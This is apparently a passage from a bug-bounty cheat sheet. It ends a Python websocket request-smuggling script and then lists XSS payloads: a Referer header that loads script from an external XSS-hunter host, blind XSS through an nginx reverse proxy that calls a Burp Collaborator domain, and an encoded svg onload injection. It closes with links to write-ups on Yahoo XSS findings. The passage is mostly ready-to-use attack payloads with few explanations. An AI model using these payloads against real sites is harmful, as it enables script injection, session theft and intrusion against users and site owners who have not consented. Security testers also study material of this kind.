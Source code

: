 ```python
    sock.sendall(req1)
    sock.recv(4096)
    sock.sendall(req2)
    data = sock.recv(4096)
    data = data.decode(errors='ignore')
    print data
    sock.shutdown(socket.SHUT_RDWR)
    sock.close()
    
-----------------------------------------------------------------------------
Steps to produce :-
1 - Open Your Terminal
2 - Write This Command
 python3 websocket-smuggler.py
```

### XSS

* **XSS in Referrer**

```http
Referer: "><script src=//me.xss.ht></script>
```

{% embed url="https://medium.com/@newp_th/how-i-find-blind-xss-vulnerability-in-redacted-com-33af18b56869" %}

* If There Is **Nginx As Reverse Proxy** Try To Inject **Blind XSS Payloads**

{% embed url="https://speakerdeck.com/greendog/reverse-proxies-and-inconsistency?slide=17" %}

```http
GET /Endpoint-To-Proxy/%3D%22img
 src='https://RandomString(10).id.burpcollaborator.net'%22%3E HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
Connection: keep-alive
```

* Try To Inject XSS Payloads After Your Endpoints

```http
GET /Endpoint-To-Proxy/
"></script><svg onload=%26%2397%3B%26%23108%3B%26%23101
%3B%26%23114%3B%26%23116%3B(document.domain)> HTTP/1.1
Host: company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
Connection: keep-alive
---------------------
// resources
https://medium.com/@saamux/reflected-xss-on-www-yahoo-com-9b1857cecb8c
https://medium.com/bugbountywriteup/900-xss-in-yahoo-recon-wins-65ee6d4bfcbd
https://medium.com/@saamux/filter-bypass-to-reflected-xss-on-https-finance-yahoo-com-mobile-version-22b854327b27
```
